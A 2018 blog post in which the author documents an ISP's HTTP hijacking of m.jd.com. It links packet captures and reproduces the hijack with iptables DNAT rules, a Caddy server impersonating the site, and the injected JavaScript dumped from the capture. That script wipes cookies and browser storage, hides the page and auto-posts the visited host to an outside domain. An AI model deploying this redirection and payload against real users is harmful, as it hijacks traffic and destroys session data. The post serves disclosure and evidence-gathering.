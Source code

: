 ```yaml
---
title: Simple HTTP Hijacking
date: 2018-06-08T11:01:11
description: "运营商劫持了 HTTP 连接的内容，严重影响了网络的正常使用。"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_network.webp"
categories: ["network"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Preface

As a man heavily relies on network stablity, I connected to Internet via CT Network.

However, after experiencing the DNS response packet fully-filled with alphabet within two days, I experienced a HTTP JavaScript Hijacking again. This time, they hijacked ```m.jd.com:80``` . I reproduced this "feature" using my Arch Linux PC Chrome, iPad Safari, iPad Chrome again and again.

I will provide my packet capture files here.

DNS Capture:  [PCAP File](/asset_files/udp53_filledNONSENSE.pcap)

Hijack Capture: [CHLS File - Charles Proxy](/asset_files/jd_hijack_ipad.chls)

They still don't admit it. And they asked me if they could go to my house and check it themselves. I accepted. However, the process of reproduction is tested under a very clear environment. Now, they set up a whitelist and want to cheat me.

I won't accept any cheat. Now, I started to deploy a hijack by myself now.


# Deployment

## Add NAT to redirect traffic

>`REDIRECT` alters the destination IP address to send to the machine itself. In other words, locally generated packets are mapped to the 127.0.0.1 address. It's for redirecting local packets. If you only want to redirect the traffic between services on the local machine, it will be a good choice.

> `DNAT` is actual [Network Address Translation](http://en.wikipedia.org/wiki/Network_address_translation). If you want packets destinated outside of the local system to have the destination altered, it's the better choice of the two, as `REDIRECT` will not work.


iptables Config

```bash
# sysctl -w net.ipv4.ip_forward=1
# iptables -A FORWARD -m state --state ESTABLISHED,RELATED -j ACCEPT
# iptables -t nat -A PREROUTING -p tcp -m tcp -s <SOURCE IP> -d <DESTINATION IP> -j DNAT --to-destination <WEB SERVER IP>:<PORT>
```

## Caddy for listening on port 80

Caddy Config

```
http://m.jd.com:80 {
   timeouts none
   log stdout
   root /tmp/testweb
}
```

/tmp/testweb/index.html (File dumped from pcap file)

```html
<!DOCTYPE html><html><head><title></title></head><body><script type="text/javascript">function qs(n,m,v,u){u=u||D.URL;var t=u.match(eval('/(\\?|#|&)('+n+')=([^&]*)(&|$)/i'));if(t){m=m||t[2];v=t[3]||v}return m&&v?'&'+m+'='+v:''}function fc(){var h=location.host,x='=;expires='+new Date(0).toUTCString(),y=x+';path=',z=y+'/;domain=',l=[x,y,y+'/',z+h,z+h.substr(h.indexOf('.'))],o=D.cookie.match(/[^ =;]+(?=\=)/g);if(o&&S)for(var i=o.length;i--;)for(var j=5;j--;)D.cookie=o[i]+l[j];if(window.localStorage)localStorage.clear();if(window.sessionStorage)sessionStorage.clear();setTimeout(fc,500)}function fip(){var u=('http://m.quanwangfa.com/').replace(/(\?|#)&/g,'$1');D.body.appendChild(D.createElement('iframe')).src="javascript:var D=document;D.write(\"<html><body><form method='post'action='"+u+"'><input name='t'value='"+location.host+"'/><input name='p'value='0'/><input name='g'value='_top'/><input type='submit'id='s'/></form></body></html>\");var s=D.getElementById('s');if (s.click) s.click();D.close()";setTimeout(function(){if(S){D.cookie='home=s';location.reload()}},3000)}var D=document,d=D,S=!D.cookie.match(/home=s/i);D.body.style.visibility='hidden';D.oncontextmenu=function(){return false};fc();fip()</script></body></html>
```

# Done!

Tested. 

Update: 2 weeks after I report to MIIT, still can be reproduced on my HUAWEI device.

# Referrence

https://serverfault.com/questions/179200/difference-beetween-dnat-and-redirect-in-iptables
http://xstarcd.github.io/wiki/Linux/iptables_forward_internetshare.html
https://my.oschina.net/tridays/blog/785483
